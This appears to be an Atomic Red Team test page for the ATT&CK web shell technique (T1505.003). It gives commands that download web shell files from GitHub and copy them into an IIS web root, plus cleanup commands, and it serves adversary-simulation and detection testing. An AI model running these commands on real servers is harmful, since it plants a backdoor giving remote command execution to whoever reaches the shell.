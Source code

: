 # T1505.003 - Web Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/003)
<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (ex: [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>